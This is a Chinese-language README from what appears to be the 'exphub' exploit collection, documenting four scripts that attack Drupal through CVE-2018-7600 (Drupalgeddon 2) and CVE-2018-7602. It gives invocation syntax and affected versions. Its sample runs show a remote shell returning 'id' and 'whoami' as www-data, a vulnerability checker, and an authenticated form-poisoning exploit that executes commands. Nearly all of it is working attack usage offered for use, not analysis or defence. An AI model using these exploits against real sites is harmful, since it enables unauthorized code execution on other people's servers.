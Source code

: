 # About Drupal
Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。连续多年荣获全球最佳CMS大奖，是基于PHP语言最著名的WEBh应用程序。截止2011年底，共有13,802位WEB专家参加了Drupal的开发工作；228个国家使用181种语言的729,791位网站设计工作者使用Drupal。著名案例包括：联合国、美国白宫、美国商务部、纽约时报、华纳、迪斯尼、联邦快递、索尼、美国哈佛大学、Ubuntu等。

# Vulnerability list
[**cve-2018-7600_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本[[使用]](https://freeerror.org/d/426)  
[**cve-2018-7600_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600  
[**cve-2018-7602_cmd.py**](https://github.com/zhzyker/exphub/tree/master/drupal) Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)  
[**cve-2018-7602_poc.py**](https://github.com/zhzyker/exphub/tree/master/drupal) 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600 

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/drupal#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述

## CVE-2018-7600_cmd.py	Drupal Drupalgeddon 2 远程代码执行漏洞利用脚本
> USE:
> ```
> +----------------------------------------------------------------------+
> + DES: by zhzyker as https://github.com/zhzyker/exphub                 +
> +      Drupal Drupalgeddon 2 远程代码执行 CVE-2018-7600                +
> +----------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                        +
> + EXP: python3 cve-2018-7600_cmd.py http://1.1.1.1:8080                +
> + VER: Drupal 6.x                                                      +
> +      Drupal 7.x < 7.58                                               +
> +      Drupal 8.3 < 8.3.9                                              +
> +      Drupal 8.4 < 8.4.6                                              +
> +      Drupal 8.5 < 8.5.1                                              +
> +----------------------------------------------------------------------+
> + DES: Shell仅能回显一行代码，多行代码结果查看http://xxxx/exphub.txt   +
> +----------------------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_cmd.py http://freeerror.org:8080
> [+] http://freeerror.org:8080/exphub.txt
> 
> Shell >>> id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> Shell >>> whoami
> www-data
> Shell >>> exit
> ```

## CVE-2018-7600_poc.py	该脚本可检测 CVE-2018-7602 和 CVE-2018-7600
> EXP:
> ```
> zhzy@debian:$ python3 cve-2018-7600_poc.py http://freeerror.org:8081
> 
> +------------------------------------------------------------------+
> +                           iDrupal                                +
> +                          by IAmG0d                               +
> +------------------------------------------------------------------+
> + USE: python3 <filename> <url>                                    +
> + EXP: python3 cve-2018-7602_poc.py http://freeerror.org:8081      +
> +------------------------------------------------------------------+
> + DES: 该脚本可检测 CVE-2018-7602 和 CVE-2018-7600                 +
> +------------------------------------------------------------------+
> 
> [~] Checking the version of http://freeerror.org:8081/
> [+] Possibly vulnerable to CVE-2018-7600!
> [+] Possibly vulnerable to CVE-2018-7602!
> [0:)] Thank You For Using... Goodbye
> ```

## CVE-2018-7602_cmd.py	Drupal 内核远程代码执行漏洞利用脚本(需要账户密码)
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-drupal$ python cve-2018-7602_cmd.py admin admin http://freeerror.org:8080 -c id
> ()
> +---------------------------------------------------------------------------------+
> +   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     +
> +                                   by pimps                                      +
> +---------------------------------------------------------------------------------+
> + USE: python3 <filename> <username> <password> <url> -c <command>                +
> + EXP: python3 cve-2018-7602_cmd.py admin admin http://1.1.1.1:8080 -c "id"       +
> + VER: Drupal 7.x < 7.59                                                          +
> +      Drupal 8.4 < 8.4.8                                                         +
> +      Drupal 8.5 < 8.5.3                                                         +
> +---------------------------------------------------------------------------------+
> + DES: CVE-2018-7602 Need Username Password                                       +
> +---------------------------------------------------------------------------------+
> 
> [*] Creating a session using the provided credential...
> [*] Finding User ID...
> [*] User ID found: /user/1
> [*] Poisoning a form using 'destination' and including it in cache.
> [*] Poisoned form ID: form-6iAq8Ou5pKFQqEZ4sh1A_zQI_5QMSC71Stp4ohaseW0
> [*] Triggering exploit to execute: id
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ```
